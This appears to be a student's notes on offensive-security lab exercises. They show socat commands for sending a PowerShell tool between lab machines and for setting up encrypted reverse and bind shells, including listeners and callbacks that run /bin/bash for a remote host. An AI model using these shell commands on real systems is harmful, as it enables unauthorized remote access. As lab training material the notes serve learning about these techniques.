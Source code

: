 # 4.2.5 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **socat ** to transfer **powercat.ps1 ** from your Kali machine to your Windows system. Keep the file on your system for use in the next section.
host
`sudo socat TCP4-LISTEN:443,fork file:powercat.ps1`
recipient
`socat TCP4:192.168.119.249:443 file:received_powercat.ps1,create`
![[Pasted image 20220218121253.png]]

2.  Use **socat ** to create an encrypted reverse shell from your Windows system to your Kali machine.
generate the key
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`
combine .key and .crt into .pem
`cat bind_shell.key bind_shell.crt > bind_shell.pem`
create listener using .pem and execute shell
`sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
connect 
`socat - OPENSSL:192.168.119.249:443,verify=0`
![[Pasted image 20220218122213.png]]
3.  Create an encrypted bind shell on your Windows system. Try to connect to it from Kali without encryption. Does it still work?
use previously generated .pem
start socat listener
`socat -d -d OPENSSL-LISTEN:443,cert=shell.pem,verify=0 STDOUT`
target windows machine do a callback using socat
`socat OPENSSL:192.168.119.218:443,verify=0 EXEC:/bin/bash`

4.  Make an unencrypted **socat ** bind shell on your Windows system. Connect to the shell using Netcat. Does it work?

